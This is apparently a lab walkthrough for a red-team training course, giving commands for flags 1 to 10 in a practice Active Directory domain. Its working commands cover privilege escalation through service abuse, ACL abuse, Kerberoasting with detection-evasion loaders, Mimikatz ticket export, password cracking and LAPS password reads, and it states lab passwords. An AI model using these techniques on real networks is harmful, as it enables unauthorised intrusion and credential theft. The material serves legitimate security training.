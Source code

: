 # CRTE Lab

## Flag 1,2 - Domain Enumeration

Enumerate following for the us.techcorp.local domain:

* Users&#x20;
* &#x20;Computers&#x20;
* &#x20;Domain Administrators&#x20;
* &#x20;Enterprise Administrators&#x20;
* &#x20;Kerberos Policy

Use BloodHound to do it or ad module

## Flag 3,4 - Trust Enumeration

To list only the external trusts using PowerView:

{% code overflow="wrap" %}
```powershell
Get-ForestDomain -Verbose | Get-DomainTrust | ?{$_.TrustAttributes -eq 'FILTER_SIDS'}
```
{% endcode %}

<figure><img src="../.gitbook/assets/immagine (2).png" alt=""><figcaption></figcaption></figure>

The trust is bidirectional, so enumerate the trust that eu.local has

```powershell
Get-ForestTrust -Forest eu.local
```

<figure><img src="../.gitbook/assets/immagine (1) (1).png" alt=""><figcaption></figcaption></figure>

## FLAG 5/6/7 - Name of the service for privesc on local machine

* Exploit a service on studentx and elevate privileges to local administrator.
* Identify a machine in the domain where studentuserx has local administrative access due to group membership.

Use PowerUp to find a privesc

```powershell
Invoke-AllChecks
```

<figure><img src="../.gitbook/assets/immagine (2) (1).png" alt=""><figcaption></figcaption></figure>

And exploit the service

```powershell
Invoke-ServiceAbuse -Name 'ALG' -UserName us\studentuser64
```

Now log off and log on to gain admin privileges

Import PowerView to find computer wjere we have access as Local Admin

```powershell
Find-LocalAdminAccess
```

Nothing but you can see from bloodhound that the group studentuser is enrolled in the Managers group

Managers group has generic all on MachineAdmins Group, so with AdModule we can add ourself to this group.

```powershell
Add-ADGroupMember -Identity MachineAdmins -Members studentuser64 -Verbose
```

<figure><img src="../.gitbook/assets/immagine (3).png" alt=""><figcaption></figcaption></figure>

Now relogin to update the permissions and try to access to us-mgmt

```powershell
winrs -r:us-mgmt whoami
```

<figure><img src="../.gitbook/assets/immagine (4).png" alt=""><figcaption></figcaption></figure>

By enumerating the groups which we belongs we can se that in the mgmt OU we are Administrators.

## Flag 8 - SevicePrincipalName of the user serviceaccount that we Kerberoasted

Using PowerView see if there are any SPN

{% code overflow="wrap" %}
```powershell
Get-DomainUser –SPN
```
{% endcode %}

<figure><img src="../.gitbook/assets/immagine (5).png" alt=""><figcaption></figcaption></figure>

the kerberoast attack can be done in wto ways

#### Rubeus and John

First use Argspli.bat to avoid detection in the cmd

<figure><img src="../.gitbook/assets/immagine (6).png" alt=""><figcaption></figcaption></figure>

Now load Rubeus with the Loader to avoid detection and launch an attack against ServiceAccount

{% code overflow="wrap" %}
```powershell
C:\AD\Tools\Loader.exe -Path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:serviceaccount /simple /rc4opsec /outfile:C:\AD\Tools\hashes.txt
```
{% endcode %}

<figure><img src="../.gitbook/assets/immagine (7).png" alt=""><figcaption></figcaption></figure>

Now crackit with john. The password is _Password123_

#### KerberosRequestorSecurityToken.NET class from PowerShell, Mimikatz and tgsrepcrack.py

We can also use the KerberosRequestorSecurityToken .NET class from PowerShell to request a ticket.

{% code overflow="wrap" %}
```powershell
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "USSvc/serviceaccount"
```
{% endcode %}

<figure><img src="../.gitbook/assets/immagine (8).png" alt=""><figcaption></figcaption></figure>

Use Mimikatz to extract the ticket

```powershell
Invoke-Mimi -Command '"kerberos::list /export"'
```

<figure><img src="../.gitbook/assets/immagine (9).png" alt=""><figcaption></figcaption></figure>

and crack it

{% code overflow="wrap" %}
```
python.exe .\tgsrepcrack.py .\10k-worst-pass.txt .\2-60210000-studentuser64@USSvc~serviceaccount-US.TECHCORP.LOCAL.kirbi
```
{% endcode %}

## Flag 9 - Password for supportXuser that we Kerberoasted&#x20;

With PowerView see if we have any other interesting ACL with studentusers group:

{% code overflow="wrap" %}
```powershell
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "StudentUsers"}
```
{% endcode %}

<figure><img src="../.gitbook/assets/immagine (10).png" alt=""><figcaption></figcaption></figure>

Since studentuser64 has GenericAll rights on the support64user, let’s force set a SPN on it. Using ActiveDirectory module:

{% tabs %}
{% tab title="Powerview" %}
{% code overflow="wrap" %}
```
Set-DomainObject -Identity support64user -Set @{serviceprincipalname='us/myspn64'} -Verbose
```
{% endcode %}
{% endtab %}

{% tab title="Ad-Module" %}
{% code overflow="wrap" %}
```
Set-ADUser -Identity Support64User -ServicePrincipalNames @{Add='us/myspn64'} -Verbose
```
{% endcode %}
{% endtab %}
{% endtabs %}

Check if SPN is set up now

{% code overflow="wrap" %}
```powershell
Get-ADUser -Identity support64user -Properties ServicePrincipalName | select ServicePrincipalName
```
{% endcode %}

{% hint style="info" %}
If nothing showed might work the same
{% endhint %}

Now crack it. The password is _Desk@123_

## Flag 10 -  LAPS

To enumerate LAPS import the module AdmPwd.PS.psd1, AD-Module and use the script Get-LapsPermissions.ps1

<figure><img src="../.gitbook/assets/immagine.png" alt=""><figcaption></figcaption></figure>

Also powerview can be used

{% code overflow="wrap" %}
```powershell
Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | Where-Object {($_.ObjectAceType -like 'ms-Mcs-AdmPwd') -and ($_.ActiveDirectoryRights -match 'ReadProperty')} | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_}
```
{% endcode %}

<figure><img src="../.gitbook/assets/immagine (1).png" alt=""><figcaption></figcaption></figure>

So, the studentusers group can read password for LAPS managed Administrator on the us-mgmt machine. Let's try it using the Active Directory module, LAPS module and PowerView.

{% tabs %}
{% tab title="AD-Module" %}


{% code overflow="wrap" %}
```powershell
Get-ADComputer -Identity us-mailmgmt -Properties ms-mcs-admpwd | select -ExpandProperty ms-mcs-admpwd
```
{% endcode %}
{% endtab %}

{% tab title="PowerView" %}
{% code overflow="wrap" %}
```powershell
Get-DomainObject -Identity us-mailmgmt | select -ExpandProperty ms-mcs-admpwd
```
{% endcode %}
{% endtab %}

{% tab title="LAPS Module" %}
```powershell
Get-AdmPwdPassword -ComputerName us-mailmgmt
```
{% endtab %}
{% endtabs %}
